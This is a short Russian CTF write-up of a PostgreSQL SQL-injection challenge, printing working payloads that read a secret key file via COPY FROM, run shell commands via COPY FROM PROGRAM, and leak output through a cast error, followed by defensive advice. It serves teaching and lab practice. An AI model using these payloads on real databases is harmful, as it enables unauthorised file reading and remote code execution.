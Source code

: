 # День пятый (Postgres RCE SQL Injection)
-- -
### Цель атаки: 
Получить секретный ключ `/app/secret_key.py`, хранящийся на сервере

### Решение:

Задание было в формате однокомандного CTF. Участникам предлагалось объединиться вместе, чтобы найти уязвимость и
получить секретный ключ. Первым делом необходимо понять, какая используется на сервере база данных и ее версия. 
Затем необходимо было проэксплотировать уязвимость и получить доступ к ключу. Официально решение предполагало 
использование Remote Code Execution, но участникам удалось справиться и без этого

### Итоговый эксплоит:
1) Решение участников: эксплоит копирует содержимое файла secret_key.py в случайную строчку комментариев на сайте,
```sql
lol', '2000-01-01'); COPY comments(text) from '/app/secret_key.py'; insert into users values ('lol
```

2) Авторское решение: позволяет вывести секретный ключ атакующему
```sql
lol', '2000-01-01');
CREATE TABLE cmd_exec(cmd_output text); 
COPY cmd_exec FROM PROGRAM 'cat /app/secret_key';
; insert into users values ('lol
```
```sql
lol', '2000-01-01'); SELECT CAST(cmd_output as DATE) FROM cmd_exec;
```

### Инструменты и полезные ссылки
- Все атаки на PostgreSQL https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

### Способ защиты
- Отключить инструкцию COPY FROM в настройках базы
- Экранировать пользовательский ввод
